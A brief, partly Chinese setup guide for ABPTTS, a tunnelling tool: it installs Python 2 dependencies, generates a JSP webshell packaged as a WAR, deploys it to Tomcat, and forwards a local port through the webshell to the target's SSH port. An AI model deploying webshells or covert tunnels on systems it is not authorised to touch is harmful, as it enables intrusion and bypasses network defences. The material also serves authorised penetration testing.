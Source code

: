 ## 运行abptts前必要条件

```shell
dnf install -y gcc python2 python2-devel
python2 -m pip install pycrypto
python2 -m pip install httplib2
```

```shell
git clone https://github.com/nccgroup/ABPTTS.git -c http.proxy=socks5://proxy.asants.com:10808

python2 abpttsfactory.py -o webshell
```

### download tomcat and jdk

```shell
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/8.0.47/tomcat-8.0.47.tar.gz
wget https://builds.openlogic.com/downloadJDK/openlogic-openjdk/8u382-b05/openlogic-openjdk-8u382-b05-linux-x64.tar.gz
```

### install tomcat and jdk
```shell
tar -zxvf tomcat-8.0.47.tar.gz
tar -zxvf openlogic-openjdk-8u382-b05-linux-x64.tar.gz
```

### configure env jdk

```shell
vim /etc/profile
```

### write content
```txt
export JAVA_HOME=/opt/asants/openlogic-openjdk-8u382-b05-linux-x64
export PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
```

### reload config

```shell
source /etc/profile
```

### 最好打开一个新的会话，8版本的tomcat 读取jdk环境变量会失败

### abptts generate webshell/xxx.war to tomcat and start tomcat

```shell
cp -r webshell/xxx.war apache-tomcat-8.0.47/webapps/
sh apache-tomcat-8.0.47/bin/startup.sh
```

### 查看是否启动

```shell
curl http://ip:8080/xx/xx.jsp
```

### 访问本机的10227端口，相当于访问目标的22端口

```shell
python2 abpttsclient.py -c webshell/config.txt -u "http://ip:8080/xx/xx.jps" -f ip:20227/ip:22
```

### 访问服务器

```shell
ssh root@ip -p 20227
```

### docs

https://github.com/nccgroup/ABPTTS.git

https://www.jianshu.com/p/5187093a45e2

